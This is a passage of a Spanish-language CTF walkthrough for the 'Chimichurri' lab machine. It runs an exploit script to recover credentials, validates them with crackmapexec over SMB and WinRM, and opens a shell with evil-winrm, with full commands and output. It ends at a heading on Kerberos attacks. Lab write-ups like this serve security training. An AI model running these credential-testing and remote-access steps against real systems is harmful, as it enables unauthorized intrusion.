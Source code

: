 Intentémoslo de la misma forma como lo hicieron en el blog:
```bash
python3 51993.py -u http://192.168.1.50:6969 -p /Users/hacker/Desktop/perico.txt
hacker:Perico69
```
Muy bien, funcionó.

Vamos a comprobar si la contraseña es válida, usando **crackmapexec**:
```bash
crackmapexec smb 192.168.1.50 -u 'hacker' -p 'Perico69'
SMB         192.168.1.50   445    CHIMICHURRI      [*] Windows 10 / Server 2016 Build 14393 x64 (name:CHIMICHURRI) (domain:chimichurri.thl) (signing:True) (SMBv1:False)
SMB         192.168.1.50   445    CHIMICHURRI      [+] chimichurri.thl\hacker:Perico69
```
Es válida.

Si recordamos el **escaneo de nmap**, vimos activo el **puerto 5985** que indica que está activo el **servicio WinRM**. Así que vamos a probar si las credenciales sirven para este servicio:
```bash
crackmapexec winrm 192.168.1.50 -u 'hacker' -p 'Perico69'
SMB         192.168.1.50   5985   CHIMICHURRI      [*] Windows 10 / Server 2016 Build 14393 (name:CHIMICHURRI) (domain:chimichurri.thl)
HTTP        192.168.1.50   5985   CHIMICHURRI      [*] http://192.168.1.50:5985/wsman
WINRM       192.168.1.50   5985   CHIMICHURRI      [+] chimichurri.thl\hacker:Perico69 (Pwn3d!)
```
Genial, entonces podemos usar **evil-winrm** para poder conectarnos a la máquina víctima.

Probemos:
```bash
evil-winrm -i 192.168.1.50 -u 'hacker' -p 'Perico69'
                                        
Evil-WinRM shell v3.7
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\hacker\Documents> whoami
chimichurri0\hacker
```
Listo, estamos dentro.

Lo curioso, es que no podremos ver la flag del usuario:
```batch
*Evil-WinRM* PS C:\Users\hacker\Desktop> type user.txt
Access to the path 'C:\Users\hacker\Desktop\user.txt' is denied.
At line:1 char:1
+ type user.txt
+ ~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Users\hacker\Desktop\user.txt:String) [Get-Content], UnauthorizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
```
Quizá podamos verla cuando nos convirtamos en administrador.

<br>

<h2 id="KerberosAttacks">Opcional: Aplicando AS-REP Roasting Attack y Kerberoasting Attack (Ambos Fallan)</h2>
